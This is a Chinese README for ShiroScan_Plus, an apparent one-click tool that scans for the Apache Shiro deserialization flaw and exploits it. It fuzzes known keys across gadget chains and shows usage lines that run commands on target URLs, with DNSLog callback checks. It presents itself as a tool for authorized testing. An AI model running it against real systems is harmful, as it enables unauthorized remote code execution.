

# ShiroScanPlus
ShiroScan_Plus是基于sv3nbeast/ShiroScan改进的增强版的Shiro反序列化一键检测工具



## 写在前面
1. **该项目和我在公司的部分研究成果有冲突，暂时不会继续深入优化了。原计划的提取Payload 16进制形式，替换调Java的方式的优化，也暂时搁置。欢迎有能力的大佬贡献代码。**  
2. 运行环境Python3、Java 1.8, pycrypto安装有困难的朋友，可以尝试使用pycryptodome==3.9.8  

## 声明 
* 仅供安全人员验证,测试是否存在此漏洞。  
* **使用此工具检测必须遵守请使用者遵守[《中华人民共和国网络安全法》](http://www.npc.gov.cn/npc/xinwen/2016-11/07/content_2001605.htm) ，勿用于非授权的测试，本人不负任何连带法律责任。**  

## 新改动内容
1. 更正requirements，优化代码规范和逻辑问题，优化代码结构。 
2. 采用两种扫描模式，fast优先检测key，但漏报率特别高。full直接发送全部key的全部利用链，资源消耗大，准确度高。  
3. 用[Koalr](https://github.com/zema1) 的利用链 CommonsCollectionsK1到K4替代CommonsCollections1到7
4. 为了Windows用户方便安装pycrypto，requirements.txt中采用了pycryptodome==3.9.8
5. 增加参数解析，增加DNSLog验证、URL文件批量处理、输出到文件等功能，多个功能可以配合使用。  
6. 移除原作者新加的30个key，移除一个重复key，保留20个key。

## 原改动内容  
1. 新增4个利用链模块(CommonsCollections7-10)，预计增加成功率30%，已打包成新ysoserial的jar包，请勿更换
2. 增加多线程，虽模块增加但速度却提高300%
3. 集成51个key进行fuzz  
4. 输入命令自动进行bash编码，防止未了解此漏洞的人踩坑  

## 使用方法  
**运行环境为Python3**
```
* Windows安装依赖：pip install -r requirments_windows.txt  
* Linux安装依赖：pip install -r requirments_linux.txt  
* 获取帮助：python3 shiro_rce_plus.py --help
```

```
* 使用示例     
* Example：python3 shiro_rce_plus.py --mode fast --url https://url.com --command "ping xxx.dnslog.cn"
* Example: Python3 shiro_rce_plug.py --mode full --file urls.txt --command "ping xxx.dnslog.cn"
* Example: Python3 shiro_rce_plug.py --mode fast --verify --file urls.txt --dnslog "{randstr}.mydnslog.com"  
            --check "http://check.mydnslog.com/{randstr}/"  --flag "True"  
            --output res.txt
```  

## 帮助信息
```
* python shiro_rce_plus.py --help  
 ____  _     _          ____                  ____  _           
/ ___|| |__ (_)_ __ ___/ ___|  ___ __ _ _ __ |  _ \| |_   _ ___  
\___ \| '_ \| | '__/ _ \___ \ / __/ _` | '_ \| |_) | | | | / __| 
 ___) | | | | | | | (_) |__) | (_| (_| | | | |  __/| | |_| \__ \ 
|____/|_| |_|_|_|  \___/____/ \___\__,_|_| |_|_|   |_|\__,_|___/ 

                           原作者： Sv3nbeast
                           修  改： Hack3rHan

usage: shiro_rce_plus.py [-h] [--mode {fast,full}] [--url URL] [--file FILE]
                         [--command COMMAND] [--verify] [--output OUTPUT]
                         [--dnslog DNSLOG] [--flag FLAG] [--check CHECK]

optional arguments:
  -h, --help          show this help message and exit
  --mode {fast,full}  fast:快速扫描，先检测Key，准确度很差。| full:扫描全部利用链和全部Key的组合。
  --url URL           待检测单个URL。
  --file FILE         待检测URL文件，换行分割。
  --command COMMAND   要执行的命令。
  --verify            使用DNSLog验证。
  --output OUTPUT     输出到文件，文件不存在会自动创建。
  --dnslog DNSLOG     待触发的DNSlog URL，若存在{randstr}会被format。
  --flag FLAG         DNSlog检查页面包含的关键词。
  --check CHECK       检查DNSlog是否触发的URL，若存在{randstr}会被format。
```
